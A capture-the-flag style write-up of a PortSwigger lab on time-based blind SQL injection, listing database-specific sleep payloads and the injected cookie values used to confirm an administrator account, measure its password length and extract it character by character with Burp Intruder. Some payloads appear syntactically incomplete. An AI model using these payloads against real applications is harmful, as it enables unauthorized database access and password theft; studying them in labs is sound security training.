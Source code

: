 ## Blind SQL injection with time delays and information retrieval

**Title:** Blind SQL injection with time delays and information retrieval. [Go](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

**Description:** This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the `administrator` user.

## Preface

If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors will not work. 

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response. 

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true: `'; IF (1=2) WAITFOR DELAY '0:0:10'--` `'; IF (1=1) WAITFOR DELAY '0:0:10'--`

The first of these inputs does not trigger a delay, because the condition `1=2` is false. The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`


## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought
At first we have to determine which database is using the application. For this we have to use all these payloads:
Database | Payload
-------- | -----
Oracle | dbms_pipe.receive_message(('a'),10)
Microsoft | WAITFOR DELAY '0:0:10'
PostgreSQL | SELECT pg_sleep(10)
MySQL	| SELECT SLEEP(10)

We tried all these payloads & figured out that this web application is using PostgreSQL. Our payload is `TrackingId=LsT'||pg_sleep(10)--`.

Now change it to: `TrackingId=LsT' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`. Verify that the condition is true, confirming that there is a user called `administrator`.

![poc_admin_user.png](../images/admin_user.png)

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
`TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`. After iterating we concluded that the password is 20 characters long.

![poc_password_length.png](../images/password_length.png)

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu. Here, we use cluster bomb option with two payload position. `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,§payload01§,1)='§payload02§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1.

Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".

![poc_final.png](../images/poc_final.png)

**Summary:** 
1. Fingerprinting database with `TrackingId=LsT'||pg_sleep(10)--`

2. `administrator` user confirmation with `TrackingId=LsT' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.

3. Password length determination `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.

4. Brute forcing password with `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,§payload01§,1)='§payload02§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.
